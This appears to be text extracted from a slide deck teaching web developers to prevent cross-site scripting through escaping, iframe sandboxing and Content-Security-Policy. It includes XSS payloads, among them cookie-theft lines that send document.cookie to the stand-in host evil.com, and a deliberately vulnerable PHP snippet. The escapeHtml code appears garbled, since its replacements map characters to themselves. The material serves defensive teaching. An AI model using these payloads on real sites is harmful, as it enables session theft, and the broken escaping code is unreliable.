



- Software engineer at Shape Security
- Formerly: Disqus, FreshBooks
- Co-author, Third-party JavaScript (Manning)
- Once ate 7 McDonald's cheeseburgers in one sitting
Vulnerability where attacker injects JavaScript code into a web document
<?php $name = $_GET['name']; echo "Welcome $name"; ?>
GET http://ursite.com/script.php?name=%3Cscript%3Ealert(%22pwned%22)%3C%2Fscript%3E HTTP/1.1
Welcome <script>alert("pwned")</script>
Client-side apps are not immune
var div = document.createElement('div');
div.innerHTML = 'Welcome' + user.name;
document.body.appendChild(div);
{
"id": 1337,
"username": "some_asshole87"
"name": "<img src=\"\" onerror=\"alert('pwned')\">",
}
Welcome <img src="" onerror="alert('pwned')">
Steal cookies
new Image('http://evil.com/capture?cookies=' + document.cookie);
Use local XHR
$.get('/my/contacts', function (response) { … });
Use client API
GMAIL.deleteAll();
Set-Cookie: session=29e807166458d2640 HttpOnly
document.cookie
Escape dangerous characters in untrusted strings
function escapeHtml(str) {
return String(str)
.replace(/&/g, "&")
.replace(/</g, "<")
.replace(/>/g, ">")
.replace(/"/g, """)
.replace(/'/g, "'")
.replace(/\//g, "/")
}
Character substitutions recommended by OWASP
Sanitizing untrusted user data on the client
var div = document.createElement('div');
div.innerHTML = 'Welcome' + escapeHtml(user.name);
document.body.appendChild(div);
{
"id": 1337,
"username": "some_asshole87"
"name": "<img src=\"\" onerror=\"alert('pwned')\">",
}
Welcome <img src="" onerror="alert('pwned')">
The good
The bad
These are publicized exploits. Far more are unpublicized.
It's not a matter of if you will introduce an XSS vulnerability, but when.
Analyze your source code to derive insights.
Tools that analyze your source code to find defects and/or enforce style.

An alternate escapeHtml implementation ... with a flaw.
function escapeHtml(str) {
var div = document.createElement('div');
div.appendChild(document.createTextNode(str));
return div.innerHTML;
};
var username = '<img src="herp:/" onerror=alert("derp")>';
var profileLink = '<a href="/profile">' + escapeHtml(username) + '</a>';
var div = document.getElementById('target');
div.innerHTML = profileLink;
<a href="/profile"><img src="herp:/" onerror=alert("derp")></a>
TODO
<iframe src="index.html" sandbox/></iframe>
var iframe = document.createElement('iframe');
iframe.src = 'empty.html';
iframe.sandbox = 'allow-same-origin';
document.body.appendChild(iframe);
var userName = 'Ben <img src="" onerror="alert()"/>';
var iframeDoc = iframe.contentWindow.document;
iframeDoc.write(userName);
<iframe src="index.html" seamless sandbox/></iframe>

Content-Security-Policy HTTP header
Example: restrict scripts to current origin and ajax.googleapis.com
Content-Security-Policy: script-src 'self' ajax.googleapis.com
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script> <script src="/js/app.js"></script> <script src="http://evil.com/pwnage.js"></script>
Refused to load the script 'http://evil.com/pwnage.js' because it violates
the following Content Security Policy directive: "script-src 'self' ajax.googleapis.com".
CSP also limits inline scripts
Content-Security-Policy: script-src 'self' ajax.googleapis.com
<script>new Image('http://evil.com/?cookie=' + document.cookie);</script>
Refused to execute inline script because it violates the following Content Security Policy
directive: "script-src 'self' ajax.googleapis.com"
Inline scripts are often used for defining global config state
<head>
<script>
var CONFIG = {
version = '7330b4',
appRoot = '//example.com',
cdnRoot = '//cdn.example.com'
};
</script>
<script src="js/app.js"></script>
<head>
This example will cause a CSP exception.
<script id="config" type="text/json">
{
"version": "7330b4",
"appRoot": "//example.com",
"cdnRoot": "//cdn.example.com"
}
</script>
<script src="js/app.js"></script>
In app.js …
var config = document.getElementById('config');
window.CONFIG = JSON.parse(config.textContent || config.innerHTML);
Content-Security-Policy: script-src 'self' 'unsafe-eval' ajax.googleapis.com
Warning: eval is considered an XSS vector
CSP can protect against a variety of unauthorized asset types.
img-src – limit origins of images
style-src – stylesheets
media-src – audio and video
frame-src – iframe sources
connect-src – XHR, WebSockets, EventSource
font-src – font files
object-src - Flash and other plugin objects
default-src – all assets (including scripts)

report-uri to accept CSP exception requests (POST)
Configure an endpoint to report violations
Content-Security-Policy: default-src 'self'; report-uri http://mysite.com/report.php
CSP reports are delivered as JSON via HTTP POST
{
"csp-report": {
"document-uri": "http://example.org/page.html",
"referrer": "http://evil.example.com/",
"blocked-uri": "http://evil.example.com/evil.js",
"violated-directive": "default-src 'self'",
"original-policy": "default 'self'; report-uri http://mysite.com/report.php"
}
}
Content-Security-Policy-Report-OnlyContent-Security-Policy-Report-Only: default-src 'self'; report-uri http://mysite.com/report.php